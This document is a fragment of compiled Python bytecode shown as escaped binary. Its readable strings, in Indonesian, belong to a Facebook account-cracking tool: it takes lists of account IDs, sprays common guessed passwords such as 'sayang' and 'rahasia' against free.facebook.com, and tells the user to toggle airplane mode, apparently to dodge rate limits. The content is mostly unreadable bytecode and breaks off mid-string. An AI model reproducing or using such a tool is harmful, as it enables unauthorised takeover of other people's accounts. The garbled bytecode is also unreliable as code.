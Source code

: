 Fail:-[bright_cyan]\xfa\x0e[/bright_cyan]\xa9\x01Z\x0bdescriptionrG\x00\x00\x00r9\x00\x00\x00z\x16https://lookup-id.com/z\x1ahttps://free.facebook.com/Z\x06Lookup)\x02Z\x05fburlZ\x05check)\x02rS\x00\x00\x00rb\x00\x00\x00rU\x00\x00\x00\xda\x04span\xda\x04code)\x01\xda\x02idr\x98\x00\x00\x00r4\x00\x00\x00)\x13r\xac\x00\x00\x00r{\x00\x00\x00r\xae\x00\x00\x00ry\x00\x00\x00\xda\x03stvr\x9b\x00\x00\x00r\x9d\x00\x00\x00\xda\x03yes\xda\x02norr\x00\x00\x00rs\x00\x00\x00ru\x00\x00\x00r|\x00\x00\x00rw\x00\x00\x00rz\x00\x00\x00r\x9c\x00\x00\x00r\xa1\x00\x00\x00\xda\tException\xda\x07advance)\x07r\xb4\x00\x00\x00r\xb5\x00\x00\x00r\x82\x00\x00\x00r\x84\x00\x00\x00Z\x02iiZ\x02oo\xda\x01er*\x00\x00\x00r*\x00\x00\x00r+\x00\x00\x00r\xb1\x00\x00\x00\xe6\x00\x00\x00s\x1a\x00\x00\x00<\x02\x08\x01\x08\x01\x02\x01$\x01\x0e\x01\x16\x01\x0c\x01"\x01\x08\x80\x02\x00\x08\x01\x0e\x01r\xb1\x00\x00\x00c\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\n\x00\x00\x00\n\x00\x00\x00C\x00\x00\x00sF\x03\x00\x00t\x00\xa0\x01d\x01\xa1\x01\x01\x00t\x02\xa0\x03t\x04\xa1\x01\x01\x00t\x03d\x02\x83\x01\x01\x00t\x02\xa0\x03t\x05\xa0\x06d\x03|\x00\x9b\x00d\x04\x9d\x03\xa1\x01\xa1\x01\x01\x00t\x03d\x05t\x07t\x08t\t\x83\x01\x83\x01\x9b\x00\x9d\x02\x83\x01\x01\x00t\x03d\x06\x83\x01\x01\x00t\nd\x07\x83\x01}\x01t\x0bt\x0cd\x08\x83\x01t\rd\t\x83\x01t\x0e\x83\x00t\rd\n\x83\x01t\rd\x0b\x83\x01t\x0f\x83\x00t\rd\x0c\x83\x01\x83\x07a\x10t\x10j\x11d\x02t\x08t\t\x83\x01d\r\x8d\x02a\x12|\x01d\x0ev\x00r\xf7t\x00\xa0\x01d\x01\xa1\x01\x01\x00t\x02\xa0\x03t\x04\xa1\x01\x01\x00t\x03d\x02\x83\x01\x01\x00t\x02\xa0\x03t\x05\xa0\x06d\x03|\x00\x9b\x00d\x04\x9d\x03\xa1\x01\xa1\x01\x01\x00t\x03d\x0f\x83\x01\x01\x00t\nd\x10\x83\x01}\x02|\x02d\x02k\x02r{t\x13d\x11\x83\x01\x01\x00n\x12|\x02\xa0\x14d\x12\xa1\x01D\x00]\x0c}\x03t\x08|\x03\x83\x01d\x13k\x00r\x8ct\x13d\x14\x83\x01\x01\x00q\x80t\x00\xa0\x01d\x01\xa1\x01\x01\x00t\x02\xa0\x03t\x04\xa1\x01\x01\x00t\x03d\x02\x83\x01\x01\x00t\x02\xa0\x03t\x05\xa0\x06d\x03|\x00\x9b\x00d\x04\x9d\x03\xa1\x01\xa1\x01\x01\x00t\x03d\x15\x83\x01\x01\x00t\x03d\x02\x83\x01\x01\x00t\x10\x8f<\x01\x00t\x15d\x16d\x17\x8d\x01\x8f\x1e}\x04t\tD\x00]\x13}\x05|\x05\xa0\x14d\x18\xa1\x01d\x19\x19\x00}\x06|\x04\xa0\x16t\x17|\x06|\x02\xa0\x14d\x12\xa1\x01\xa1\x03\x01\x00q\xbaW\x00d\x00\x04\x00\x04\x00\x83\x03\x01\x00n\x101\x00s\xd8w\x01\x01\x00\x01\x00\x01\x00Y\x00\x01\x00W\x00d\x00\x04\x00\x04\x00\x83\x03\x01\x00d\x00S\x00W\x00d\x00\x04\x00\x04\x00\x83\x03\x01\x00d\x00S\x001\x00s\xf0w\x01\x01\x00\x01\x00\x01\x00Y\x00\x01\x00d\x00S\x00t\x00\xa0\x01d\x01\xa1\x01\x01\x00t\x02\xa0\x03t\x04\xa1\x01\x01\x00t\x03d\x02\x83\x01\x01\x00t\x02\xa0\x03t\x05\xa0\x06d\x03|\x00\x9b\x00d\x04\x9d\x03\xa1\x01\xa1\x01\x01\x00t\x03d\x15\x83\x01\x01\x00t\x03d\x02\x83\x01\x01\x00t\x10\x8f}\x01\x00t\x15d\x16d\x17\x8d\x01\x8f^}\x04t\tD\x00]S}\x05g\x00}\x07|\x05\xa0\x14d\x18\xa1\x01d\x19\x19\x00}\x06|\x05\xa0\x14d\x18\xa1\x01d\x1a\x19\x00\xa0\x18\xa1\x00}\x08|\x08\xa0\x14d\x1b\xa1\x01d\x19\x19\x00}\tt\x08|\x08\x83\x01d\x13k\x00\x90\x01rH\x90\x01q$t\x08|\t\x83\x01d\x1ck\x00\x90\x01rU|\x07\xa0\x19|\x08\xa1\x01\x01\x00n\x1a|\x07\xa0\x19|\x08\xa1\x01\x01\x00|\x07\xa0\x19|\td\x1d\x17\x00\xa1\x01\x01\x00|\x07\xa0\x19|\td\x1e\x17\x00\xa1\x01\x01\x00|\x07\xa0\x19|\td\x1f\x17\x00\xa1\x01\x01\x00|\x04\xa0\x16t\x17|\x06|\x07\xa1\x03\x01\x00\x90\x01q$W\x00d\x00\x04\x00\x04\x00\x83\x03\x01\x00n\x111\x00\x90\x01s\x83w\x01\x01\x00\x01\x00\x01\x00Y\x00\x01\x00W\x00d\x00\x04\x00\x04\x00\x83\x03\x01\x00d\x00S\x00W\x00d\x00\x04\x00\x04\x00\x83\x03\x01\x00d\x00S\x001\x00\x90\x01s\x9cw\x01\x01\x00\x01\x00\x01\x00Y\x00\x01\x00d\x00S\x00) Nr\x0e\x00\x00\x00r+\x00\x00\x00r\x8f\x00\x00\x00r\x90\x00\x00\x00u\x11\x00\x00\x00\n\xe2\x80\xa2 Jumlah ID : u+\x00\x00\x00\xe2\x80\xa2 Mode Password Default/Manual (d/m) ? : r-\x00\x00\x00Z\x05clockz\x1a[deep_pink3][[/deep_pink3]z\x1a[deep_pink3]][/deep_pink3]r\xa7\x00\x00\x00r\xa8\x00\x00\x00r\xa9\x00\x00\x00)\x02\xda\x01m\xda\x01Mu&\x00\x00\x00\n\xe2\x80\xa2 Contoh : sayang,katasandi,rahasiau\x18\x00\x00\x00\xe2\x80\xa2 Masukkan Password : u\x13\x00\x00\x00\n\xe2\x80\xa2 Jangan Kosong!\xfa\x01,\xe9\x06\x00\x00\x00u,\x00\x00\x00\n\xe2\x80\xa2 Dalam 1 Password Jangan Kurang 6 Huruf!uJ\x00\x00\x00\n\xe2\x80\xa2 Proses Crack Dimulai\n\xe2\x80\xa2 Hidupkan/Matikan Mode Pesawat Setiap 5